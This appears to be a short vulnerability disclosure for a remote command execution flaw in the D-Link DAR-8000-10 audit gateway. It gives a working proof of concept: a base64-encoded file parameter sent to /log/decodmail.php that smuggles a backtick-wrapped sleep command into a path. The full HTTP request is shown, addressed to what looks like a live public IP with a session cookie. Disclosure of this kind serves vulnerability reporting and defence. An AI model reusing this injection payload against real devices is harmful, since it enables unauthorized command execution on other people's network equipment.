 The D-LINK-DAR-8000-10 Online behavior audit gateway has rce vulnerabilities

official website:http://www.dlink.com.cn/

version:D-LINK  DAR-8000-10

See the login page.

![WPS图片(1)](https://github.com/TinkAnet/cve/assets/118334129/8a348409-d318-414f-9e80-a0cf25c01d13)

Construct the file parameter /etc/' sleep${IFS}10 '.pcap, and then use base64 encryption to construct the file parameter, and successfully execute the system command

POC
```
GET /log/decodmail.php?file=L2V0Yy9gc2xlZXAke0lGU30xMGAucGNhcA== HTTP/1.1
Host: 59.60.19.174:8443
Cookie: PHPSESSID=25b739a8fcf3db5555845ffce2251be5
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```
![WPS图片(2)](https://github.com/TinkAnet/cve/assets/118334129/cbb9dc67-e3b9-4fe1-bbef-7dbcfada98d9)

